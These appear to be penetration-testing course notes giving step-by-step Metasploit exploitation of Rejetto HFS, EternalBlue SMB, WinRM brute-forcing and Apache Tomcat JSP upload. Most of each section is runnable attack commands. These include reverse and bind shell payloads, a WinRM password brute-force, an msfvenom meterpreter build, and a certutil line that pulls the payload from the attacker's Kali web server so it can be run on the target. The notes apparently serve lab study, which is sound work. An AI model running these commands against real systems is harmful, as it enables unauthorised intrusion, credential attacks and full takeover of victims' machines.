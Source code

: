

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 




###  Exploiting Vulnerable Apache Tomcat Web server 

- Apache Tomcat is open source Java servlet web server 
- used to build dynamic websites and web applications based on the Java software platform 
- Apache Tomcat uses HTTP protocol 
- Apache uses TCP port 8080 by default 

Difference between Apache and Apache Tomcat? 
- Standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP 
- the Apache Tomcat web server is **primarily** used to host dynamic websites or web applications developed in Java. 
- Apache Tomcat V8.5.19 is vulnerable to remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server. 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) search for exploit for tomcat: `search type:exploit tomcat_jsp ` 
6) `use exploit/multi/http/tomcat_jsp_upload_bypass `
7) in options you do not see payload but when you type info you see more info about the payload. for this exploit you can only use a jsp (java) payload 
	`set payload java/jsp_shell_bind_tcp`
8) specify shell command - target is windows so we can use cmd: `set SHELL cmd`
	now we have access to target but not in meterpreter session but this is a command shell session. Lets out that in the background `control + z `
9) set up meterpreter session: 
	1) open new tab 
	2) generate payload with msfvenom (windows meterpreter): `msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=kali LPORT=1234 -f exe > meterpreter.exe `
	3) set up simple webserver within current directory to host the files: `sudo python -m SimpleHTTPServer 80 `
	4) go back to previous windows (tomcat) with simple shell session and get the session back: `sessions` -> `sessions 1 ` 
		1) download the files on target system, hosted on webserver: `certutil -urlcash -f http://kali-ip/meterpreter.exe meterpreter.exe 
		2) check if file is downloaded on target: `dir` 
		3)  terminate the webserver after successfull download: control + c 
10) set up handler:
		1) create resource script: `vim handler.rc `
			1) `use multi/handler
			2) `set PAYLOAD windows/meterpreter/reverse_tcp `
			3) `set LHOST kali  ip` 
			4) `set LPORT 1234`
			5) `run` 
		2) `msfconsole -r handler.rc `
11) execute meterpreter payload on target system, in tomcat window run: `.\\meterpreter.exe `





